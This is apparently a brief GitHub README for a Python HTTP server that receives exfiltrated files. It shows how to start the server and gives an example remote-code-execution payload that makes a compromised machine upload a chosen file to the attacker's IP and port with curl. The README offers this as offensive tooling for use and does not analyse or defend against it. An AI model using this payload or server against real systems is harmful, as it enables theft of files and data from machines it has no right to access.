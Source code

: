# Python-HTTP-SERVER-exfiltrate-file
script server http python exfiltrate file

Execute Script : python server.py {port}

Exemple for use in RCE: ?cmd=curl ip:port --upload-file {file} 
